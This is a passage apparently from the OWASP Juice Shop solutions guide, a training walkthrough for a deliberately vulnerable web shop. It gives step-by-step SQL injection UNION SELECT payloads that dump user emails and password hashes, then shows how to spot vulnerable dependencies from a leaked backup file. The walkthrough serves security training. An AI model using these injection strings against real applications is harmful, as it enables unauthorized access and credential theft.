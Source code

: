    1. `')) UNION SELECT '1' FROM Users--` fails with `number of result
      columns` error
   2. `')) UNION SELECT '1', '2' FROM Users--` fails with `number of
      result columns` error
   3. `')) UNION SELECT '1', '2', '3' FROM Users--` fails with `number
      of result columns` error
   4. (...)
   5. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM
      Users--` _still fails_ with `number of result columns` error
   6. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM
      Users--` finally gives you a JSON response back with an extra
      element
      `{"id":"1","name":"2","description":"3","price":"4","deluxePrice":"5","image":"6","createdAt":"7","updatedAt":"8","deletedAt":"9"}`.

7. Next you get rid of the unwanted product results changing the query
   into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5',
   '6', '7', '8', '9' FROM Users--` leaving only the "`UNION`ed" element
   in the result set
8. The last step is to replace the fixed values with correct column
   names. You could guess those **or** derive them from the RESTful API
   results **or** remember them from previously seen SQL errors while
   attacking the _Login_ form.
9. Searching for `qwert')) UNION SELECT id, email, password, '4', '5',
   '6', '7', '8', '9' FROM Users--` solves the challenge giving you a
   the list of all user data in convenient JSON format.

   ![User list from UNION SELECT attack](img/union_select-attack_result.png)

There is of course a much easier way to retrieve a list of all users as
long as you are logged in: Open <http://localhost:3000/#/administration>
while monitoring the HTTP calls in your browser's developer tools. The
response to <http://localhost:3000/rest/user/authentication-details>
also contains the user data in JSON format. But: This list has all the
password hashes replaced with `*`-symbols, so it does not count as a
solution for this challenge.

### Inform the shop about a vulnerable library it is using

Juice Shop depends on a JavaScript library with known vulnerabilities.
Having the `package.json.bak` and using an online vulnerability database
like [Retire.js](https://retirejs.github.io/) or
[Snyk](https://snyk.io/vuln) makes it rather easy to identify it.

1. Solve
   [Access a developer's forgotten backup file](../part2/sensitive-data-exposure.md#access-a-developers-forgotten-backup-file)
2. Checking the dependencies in `package.json.bak` for known
   vulnerabilities online will give you a match (at least) for
   * `sanitize-html`: Sanitization of HTML strings is not applied
     recursively to input, allowing an attacker to potentially inject
     script and other markup (see
     <https://snyk.io/vuln/npm:sanitize-html:20160801>)
   * `express-jwt`: Inherits an authentication bypass and other
     vulnerabilities from its dependencies (see
     <https://app.snyk.io/test/npm/express-jwt/0.1.3>)
3. Visit <http://localhost:3000/#/contact>